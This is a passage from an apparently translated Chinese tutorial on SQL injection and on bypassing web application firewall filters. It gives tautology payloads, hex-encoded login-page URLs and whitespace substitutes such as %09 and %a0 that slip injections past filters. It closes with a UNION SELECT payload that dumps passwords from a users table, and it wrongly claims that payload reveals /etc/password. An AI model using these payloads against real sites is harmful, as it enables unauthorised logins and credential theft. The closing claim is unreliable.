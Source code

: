 ```
'+(0-0)#
'=0<>((reverse(1))-(reverse(1)))#
'<(8*7)*(6*5)*(4*3)#
'&(1+1)-2#
'>(0-100)#

```

0x03 绕过
=======

让我们来看看一般的SQL注入攻击。

```
' or 1=1#

```

如果被转换为16进制编码，将会是这样的。

```
http://127.0.0.1/login.php?id=%27%20%6f%72%20%31%3d%31%23&password=1234

```

像上面的攻击基本都会被过滤。因此它不是好的攻击方法，我将尝试使用tab(%09)代替空格绕过过滤器。事实上。你还可以使用%a0代替%09

也可以使用以下的值。

```
%09
%0a
%0b
%0c
%0d
%a0
%23%0a
%23%48%65%6c%6c%6f%20%77%6f%6c%72%64%0a

```

以下是使用％A0代替％20的例子。

```
http://127.0.0.1/login.php?id=%27%a0%6f%72%a0%31%3d%31%23&password=1234

```

这一次，我将展示盲注的攻击方法，这种攻击可以绕过web防火墙过滤器，但一些攻击者倾向于认为盲注不可能实现登录。所以我决定展示这个例子。

下面的攻击代码能被用来登录页面且页面将显示ID和密码

```
'union select 1,group_concat(password),3 from users#

```

这个攻击代码将显示/etc/password的内容。
